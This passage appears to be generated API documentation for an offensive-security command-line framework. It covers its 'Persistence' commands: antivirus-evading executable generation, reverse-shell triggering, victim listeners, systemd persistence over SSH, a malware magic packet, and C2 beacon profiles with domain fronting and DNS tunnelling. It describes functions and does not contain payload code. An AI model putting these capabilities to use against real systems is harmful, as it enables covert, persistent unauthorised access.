Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_darkarmour(self, line)
```

Uses the darkarmour tool to generate an undetectable version of a PE executable.

This function performs the following actions:
1. Verifies the presence of darkarmour; if not installed, it clones the repository and installs dependencies.
2. Prompts the user for various options to customize the tool's behavior.
3. Constructs a command to run darkarmour with the selected options.
4. Executes darkarmour to generate the output file with the desired level of obfuscation.

line (str): Command line arguments for the tool.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="persistmigratedcommandset-do_knokknok"></a>

#### `PersistMigratedCommandSet.do_knokknok`

`method` | [cli/commands/persist_migrated.py:1215](../../cli/commands/persist_migrated.py#L1215)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_knokknok(self, line)
```

Send special string to trigger a reverse shell, with the command 'c2 client_name' create a listener shell script to drop the reverse shell in python3

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | input line not used |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_listener_go"></a>

#### `PersistMigratedCommandSet.do_listener_go`

`method` | [cli/commands/persist_migrated.py:1250](../../cli/commands/persist_migrated.py#L1250)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_listener_go(self, line)
```

Configures and starts a listener for a specified victim.

This function takes a command line input to configure and start a listener for a specified victim.
The input should include the victim ID, the choice of listener type, and optionally the port numbers.
The function then constructs the appropriate command to start the listener and assigns the necessary
parameters.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input containing the victim ID, listener type, and optional port numbers. |

**Returns:** None

**Raises**

- `None`

**Example**

```pycon
>>> listener_go victim1 2 1337 7777
```

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="persistmigratedcommandset-do_listener_py"></a>

#### `PersistMigratedCommandSet.do_listener_py`

`method` | [cli/commands/persist_migrated.py:1317](../../cli/commands/persist_migrated.py#L1317)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_listener_py(self, line)
```

Configures and starts a listener for a specified victim.

This function takes a command line input to configure and start a listener for a specified victim.
The input should include the victim ID, the choice of listener type, and optionally the port numbers.
The function then constructs the appropriate command to start the listener and assigns the necessary
parameters.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input containing the victim ID, listener type, and optional port numbers. |

**Returns:** None

**Raises**

- `None`

**Example**

```pycon
>>> listener_py victim1 2 1337 7777
```

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="persistmigratedcommandset-do_service"></a>

#### `PersistMigratedCommandSet.do_service`

`method` | [cli/commands/persist_migrated.py:1384](../../cli/commands/persist_migrated.py#L1384)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_service(self, line)
```

Creates a systemd service file for a specified binary and generates a script to enable and start the service.

This function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script
to enable and start the service. The script is saved in the sessions directory and a command is provided to execute
the script remotely via SSH.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input containing the name of the binary. If an absolute path is not provided, a default path is used. |

**Returns:** None

**Raises**

- `None`

**Example**

```pycon
>>> service my_binary_name
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_toctoc"></a>

#### `PersistMigratedCommandSet.do_toctoc`

`method` | [cli/commands/persist_migrated.py:1457](../../cli/commands/persist_migrated.py#L1457)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_toctoc(self, line)
```

Sends a magic packet to the Chinese malware.

The function extracts self.params['rhost'] and rport from self.params['rhost'] and self.params['rport'], respectively.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Raises**

- `ValueError`: (raised in the body, not documented)

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_beaconcfg"></a>

#### `PersistMigratedCommandSet.do_beaconcfg`

`method` | [cli/commands/persist_migrated.py:1480](../../cli/commands/persist_migrated.py#L1480)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_beaconcfg(self, line: str) -> None
```

Generate a C2 beacon profile with traffic morphing and domain fronting.

Usage:
    beaconcfg generate [name]        Generate a malleable C2 profile
    beaconcfg cdn [provider]         List CDN domains for fronting
    beaconcfg worker <c2_host> <c2_port> [token]  Generate Cloudflare Worker proxy
    beaconcfg dns <data> <domain>    Encode data as DNS tunnel queries

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`TrafficMorpher.__init__`](modules.traffic_morpher.py.md#trafficmorpher-__init__), [`TrafficMorpher.generate_beacon_profile`](modules.traffic_morpher.py.md#trafficmorpher-generate_beacon_profile), [`TrafficMorpher.generate_cloudflare_worker_proxy_config`](modules.traffic_morpher.py.md#trafficmorpher-generate_cloudflare_worker_proxy_config), [`TrafficMorpher.generate_dns_tunnel_payload`](modules.traffic_morpher.py.md#trafficmorpher-generate_dns_tunnel_payload), [`TrafficMorpher.get_cdn_fronting_hosts`](modules.traffic_morpher.py.md#trafficmorpher-get_cdn_fronting_hosts)

---
